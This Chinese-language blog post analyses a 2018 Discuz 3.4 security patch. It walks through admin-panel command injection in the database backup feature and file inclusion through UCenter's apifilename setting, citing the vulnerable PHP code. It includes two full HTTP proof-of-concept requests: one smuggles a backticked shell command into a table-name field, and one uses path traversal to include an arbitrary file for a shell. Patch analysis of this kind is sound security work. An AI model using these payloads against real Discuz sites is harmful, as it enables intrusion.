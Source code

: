 # discuz3.4补丁更新分析

* 5月29日discuz3.4源码提交了一次更新[https://gitee.com/ComsenzDiscuz/DiscuzX/commit/f759f176c45c08be5141a677123c167f4a1b3e14](https://gitee.com/ComsenzDiscuz/DiscuzX/commit/f759f176c45c08be5141a677123c167f4a1b3e14)，其中修复了一个后台任意文件包含漏洞和一个后台命令执行隐患。
下面从代码分析漏洞：

1.后台命令执行隐患(不具备利用条件)
----
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/命令执行1.jpg)
如图所示，问题出在后台数据库备份功能，增加了escapeshellarg()函数来过滤 $tablesstr参数。
/discuz3.4/upload/source/admincp/admincp_db.php
```php
if($operation == 'export') {

    $_SERVER['REQUEST_METHOD'] = 'POST';
    if(!submitcheck('exportsubmit')) {

        #省略

    }
    else {

        DB::query('SET SQL_QUOTE_SHOW_CREATE=0', 'SILENT');

        if(!$_GET['filename'] || !preg_match('/^[\w\_]+$/', $_GET['filename'])) {
            cpmsg('database_export_filename_invalid', '', 'error');
        }

        $time = dgmdate(TIMESTAMP);
        if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') {
            $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
        } elseif($_GET['type'] == 'custom') {
            $tables = array();
            if(empty($_GET['setup'])) {
                $tables = C::t('common_setting')->fetch('custombackup', true);
            } else {
                C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
                $tables = & $_GET['customtables'];####输入可控点
            }
            if( !is_array($tables) || empty($tables)) {
                cpmsg('database_export_custom_invalid', '', 'error');
            }
        }

        #省略

        if($_GET['method'] == 'multivol') {
            #省略
        }
        else {
            $tablesstr = '';
            foreach($tables as $table) {
                $tablesstr .= '"'.$table.'" ';
            }

            require DISCUZ_ROOT . './config/config_global.php';
            list($dbhost, $dbport) = explode(':', $dbhost);
            $query = DB::query("SHOW VARIABLES LIKE 'basedir'");
            list(, $mysql_base) = DB::fetch($query, DB::$drivertype == 'mysqli' ? MYSQLI_NUM : MYSQL_NUM);

            $dumpfile = addslashes(dirname(dirname(__FILE__))).'/'.$backupfilename.'.sql';
            @unlink($dumpfile);

            $mysqlbin = $mysql_base == '/' ? '' : addslashes($mysql_base).'bin/';

            @shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile);
```
$_GET['customtables'] >> $tables >> $tablesstr 
参数没有经过过滤、转义直接拼接到shell_exec中可被利用命令执行
利用构造POC：
```
POST /discuz3.4/upload/admin.php?action=db&operation=export&setup=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.130 Safari/537.36 T+Browser/2.3.3.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://localhost/discuz-3.4/upload/admin.php?action=db&operation=export
Content-Type: application/x-www-form-urlencoded
Content-Length: 201
Cookie:  略
Connection: close
Upgrade-Insecure-Requests: 1

formhash=40d81b28&scrolltop=&anchor=&type=custom&customtables%5B%5D=`touch /tmp/1.txt`&method=test&sizelimit=2048&extendins=0&sqlcompat=&usehex=1&usezip=0&filename=180608_gJjGo26K&exportsubmit=%E6%8F%90%E4%BA%A4
```
几个注意点：
/discuz3.4/upload/source/class/discuz/discuz_application.php 248
```php 
if($_SERVER['REQUEST_METHOD'] == 'POST' && !empty($_POST)) {
    $_GET = array_merge($_GET, $_POST);#合并键值，用post覆盖get
}
```
* $_GET包含了$_POST的值
* method不能为multivol

然而上面的命令并不能执行成功，当时我有点无语，因为下面的代码有问题，这块功能代码居然是不能用的。
```php
list(, $mysql_base) = DB::fetch($query, DB::$drivertype == 'mysqli' ? MYSQLI_NUM : MYSQL_NUM);
#DB::$drivertype不存在,根据代码意思应该是$db->drivertype或者DB::$db->drivertype
```
漏洞代码运行到这里的时候会运行不下去，因为DB::$drivertype这个参数根本没定义。
在/discuz3.4/upload/source/class/discuz/discuz_database.php里class discuz_database {} 不存在$drivertype。
为了复现漏洞，我在/discuz3.4/upload/source/class/discuz/discuz_database.php 添加了public static $drivertype;，然后再使用上面的POC成功执行了命令。

2.后台任意文件包含漏洞(ucenter应用管理权限)
----
漏洞存在多处，但是原因都是一样的，就是$apifilename参数未做过滤或转义导致任意文件包含，我选择其中一处分析。
/discuz3.4/upload/uc_server/model/note.php
```php
$apifilename = isset($app['apifilename']) && $app['apifilename'] ? $app['apifilename'] : 'uc.php';
        if($app['extra']['apppath'] &&  @include_once $app['extra']['apppath'].'./api/'.$apifilename) {
```
分析下$apifilename的值从哪里来

/discuz3.4/upload/uc_server/data/cache/apps.php >> /discuz3.4/upload/uc_server/model/base.php init_cache() >> $this->base->cache('apps') >> $app['apifilename']

apps.php的值如下图所示
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/apps.php.jpg)
可通过ucenter的应用管理进行控制
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/Jietu20180612-192102.jpg)
POC：
```php
POST /discuz3.4/upload/uc_server/admin.php?m=app&a=detail&appid=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.130 Safari/537.36 T+Browser/2.3.3.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://localhost/discuz3.4/upload/uc_server/admin.php?m=app&a=detail&appid=1&sid=bdb72eMi%2BnWQ0q9oCK46R%2BA80gB%2BQ4ZRCIiuPWiNu2FCVNQbKb%2F2FtI4XRDYgsU9VvGBY07LF2exdg
Content-Type: application/x-www-form-urlencoded
Content-Length: 405
Cookie: 略
Connection: close
Upgrade-Insecure-Requests: 1

sid=87c1Zk21dOZPwMBkwqz%2BmgKKVA%2FrhGZKGqu1CWAP63EzBMLJWaCtv9K1DPs%2B61zf7vEER6usLasOpQ&formhash=c98254e0423cf9af&type=DISCUZX&name=Discuz%21+Board&url=http%3A%2F%2Flocalhost%2Fdiscuz-3.4%2Fupload&extraurl=&ip=&authkey=SfU517M8n8u1scR1T255Gea6G909L2l338E6seAdP7xei3U0yag9J3gfm6iey66b&apppath=..%2F&viewprourl=&apifilename=../phpinfo.txt&tagtemplates=&tagfields=&synlogin=1&recvnote=1&submit=+%E6%8F%90+%E4%BA%A4+
```
* apppath=..%2F 因为不知道绝对路径，输入../会自动补全
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/绝对路径.jpg)
* apifilename= 可以是任意上传的图片等填入相对路径,这里phpinfo.txt是我创建在web根目录的测试文件

POC的包发完以后，访问登陆页面、ucenter首页等多处都包含了指定的文件，达到getshell的目的。
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/Jietu20180612-191327.jpg)

